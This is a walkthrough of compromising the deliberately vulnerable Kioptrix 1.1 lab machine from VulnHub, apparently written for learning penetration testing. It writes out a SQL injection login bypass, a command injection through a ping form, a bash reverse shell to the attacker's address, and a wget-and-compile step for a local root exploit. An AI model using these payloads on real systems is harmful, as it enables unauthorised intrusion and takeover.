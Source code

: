 # Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `netdiscover -i eth0 -r 10.0.2.0/24` to find the IP address of the vulnerable machine. We scan the local subnet because we know that VirtualBox assigns IPs in that subnet, but the command can be changed to be `/12` or something else depending on the range you wish to scan. The arguments to the `netdiscover` command specify that the network device `eth0` should be used for sniffing for ARP packets, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.

![](images/ifconfig.png "ifconfig shows us that our attacker's IP address is 10.0.2.5")

![](images/netdiscover.png "netdiscover -i eth0 -r 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

`netdiscover` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.4`, because VirtualBox typically uses the `08:00:27` MAC address prefix. After `ping`ing both of the addresses, it is determined that `10.0.2.4` is the target, because it replies to the pings.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.4` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.4`, which will just tell us the services that are running.

![](images/nmap.png "nmap -sV 10.0.2.4 shows us which services are running on the machine")

We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.

![](images/openssh.png "searchsploit openssh shows us the available exploits for OpenSSH")

Because we didn't have any luck with port 22, we'll move on to considering the next one on the list, port 80. Since http is running on this port, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.4` in Firefox gives us a login screen for remote system administration. This seems like a promising attack vector.

![](images/login.png "http://10.0.2.4 loaded in Firefox")

Since MySQL is also running on the target machine, it's likely that this login form is using SQL, and we can check to see if it's vulnerable to an SQL injection. A simple login SQL query would be something like `SELECT id FROM Users WHERE Username = 'InputUsername' AND Password = 'InputPassword'`, so we can manipulate the username and password parameters to get a valid SQL statement that will let us log in. If we use `' OR ''='` for both the username and the password, then the SQL query becomes `SELECT id FROM Users WHERE Username = '' OR ''='' AND Password = '' OR ''=''`, which will essentially check if `''=''` evaluates to true, which it does, allowing us to bypass proper authentication. This will log us in as the first user in the user table, and we now have access to the administrative web interface.

![](images/console.png "Using ' OR ''=' for both the username and password logs us in to the admin console")

This interface provides a text box where we can input an IP address and the target will ping it and provide the results for us.

![](images/ping.png "Result of putting 8.8.8.8 into the text box and submitting")

Interestingly enough, the results that are provided seem to be the same as if the Unix command `ping -c 3 8.8.8.8` was used. Could it be possible that the web interface is just throwing what we type into the text box into the command and executing it on the server? Let's test out this theory by putting `8.8.8.8; whoami` into the field. This will allow us to run the `whoami` command after the server pings 8.8.8.8, and if our hypothesis is correct, we'll see the user that the web interface is running the command as.

![](images/whoami.png "Result of putting 8.8.8.8; whoami into the text box and submitting")

Looks like the idea was right. We can see that after the ping results, there's a line for "apache," meaning that this is who the commands are running under, and that we have remote command execution on the machine. However, we don't have root access yet, which is our main objective. Additionally, our access is limited to just sending commands, we don't have a completely interactive way of communicating with the target machine. These issues are what we will solve in the next step.

## Elevating access

Let's try to achieve an interactive way to talk to the target machine. Since we can execute a command with the administrative web console, we can use `nc` on our attacking machine and `bash` on the console to start an interactive session. The command `nc -lvp 4444` on our attacking system allows us to listen on port 4444 for incoming connections and provide verbose output. After this is listening, we can submit `; bash -i >& /dev/tcp/10.0.2.5/4444 0<&1` into the text box and this will connect our two machines with an interactive session. The arguments to the `bash` command will run a new interactive instance of bash with standard output and standard error being redirected to a TCP connection to the chosen IP address and port, in this case our attacker's VM and the port that `nc` is listening on, and that standard input will be read through this connection.

![](images/connected.png "The two machines now have an interactive session")

After submitting this, the web browser will display a constantly loading page and our `nc` listener will now have a `bash` shell waiting for us.

Now that we're connected to the target machine, we need to find a way to gain root access, as the apache user we're logged in as doesn't have sudo or root privileges by default. We're going to see what directory we're currently in with the `pwd` command, and we'll use `ls -l` to see if we're allowed to write to any files in our current directory. Then, we'll attempt to find out what specific operating system the target machine is running with `uname -a`, `lsb_release -a`, and `cat /etc/*-release` to see if there are any useful local exploits we can run.

![](images/info.png "Information gathered about our target system")

From the results of these commands, we can see that we're currently in the /var/www/html directory, where we are not allowed to write to any files, and that the target is running CentOS 4.5. We can use the `searchsploit` command again on our attacking machine to see if we can find any local privilege escalation exploits that we can use. Running `searchsploit centos local -o` will show all of the local exploits available for CentOS, with the `-o` flag allowing the exploit names to be fully shown. While it may not look pretty, it will help us find the exploit we want easier.

![](images/centos.png "searchsploit centos local -o shows us the available local exploits for CentOS")

We can see that there are a few local privilege escalation exploits to choose from, and after trying them all, I've found that exploits/linux/local/9545.c is the one that works best right out of the box. Now, we need to get the exploit loaded on the target machine.

Since the apache user can't write to the current directory it's in, we will use the /tmp directory, which can be written to and read by any user. A simple `cd /tmp` will take us there. We can then use the `wget` command to download the exploit source code from [exploit-db](https://www.exploit-db.com/raw/9542/ "The source code for the exploit we're using") onto the target. The specific command we'll use will be `wget --no-check-certificate http://www.exploit-db.com/raw/9542 -O exploit.c`, which will bypass certificate verification (you shouldn't do this unless you are convinced of the site's authenticity or you don't care about the validity of its certificate), and download the contents of the page into the exploit.c file.

Once the exploit is downloaded, we can use `gcc` to compile it because the exploit source code is written in C. After you compile the exploit with `gcc exploit.c`, there will be an executable file called a.out, and now you can run the exploit with `./a.out`. We can see that the exploit worked because our prompt symbol changed from `$` to `#`, and if we run `whoami`, we can see that we are now root!

![](images/escalation.png "Downloading and executing the exploit")
